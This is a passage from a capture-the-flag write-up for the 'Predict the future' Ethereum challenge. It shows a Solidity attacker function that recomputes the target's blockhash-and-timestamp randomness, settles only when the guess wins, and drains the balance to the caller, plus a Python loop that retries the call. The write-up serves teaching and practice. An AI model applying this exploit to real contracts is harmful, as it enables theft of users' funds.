 #### Submission transaction

https://ropsten.etherscan.io/tx/0x9127996a2073acf24ecbfbd3b7f2eeba379c91815658b98e641c7035060a1eba

***

### Predict the future

#### Objectives

> This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

> Note that it is indeed possible to solve this challenge without losing any ether.

#### Solution

We have to follow a few steps here:

1. Code and deploy a contract with at least 3 functions:
    + One that locks in the guess (calling `lockInGuess()`)
    + One that calls `settle()` but *only* if it *knows* the guess will work
    + One fallback function to receive ETH

2. The function that calls `settle()` is specially important, it has to generate the answer just like the PredictTheFutureChallenge contract, but it should only attempt to do this settle if the answer is equal to the guess made when we call `lockInGuess()`. I defined it as follows:

```js
function callSettle() public {
    // prevent the tx from continuing if the answer is not going to pass as correct
    uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;
    require(answer == 0, "tx will fail and guesser will be overwritten");

    // make the guess and check if the challenge is complete, otherwise revert
    challenge.settle();
    require(challenge.isComplete(), "challenge not complete yet");
    

    // send funds to my address
    (bool success,) = msg.sender.call{value:address(this).balance}("");
    require(success, "call failed");
}
```

3. Iteratively call this `callSettle()` function until the guess goes through. I did it as follows:

```python
# call settle until it works, because `guess` is already 0
while True:
    # check if the challenge is completed
    result = predict_the_future.isComplete()
    print(f'The challenge is complete: {result}')
    if result:
        break
    
    # call settle
    try:
        attacker.callSettle(_from | {'allow_revert':True})
    except:
        pass

    # check if the guesser has been overwritten
    guesser = web3.eth.get_storage_at(predict_the_future.address, '0x').hex()
    print(f'The guesser is: {guesser}')
    if attacker.address[-40:].upper() != guesser[-40:].upper():
        print('guesser has been overwritten')
```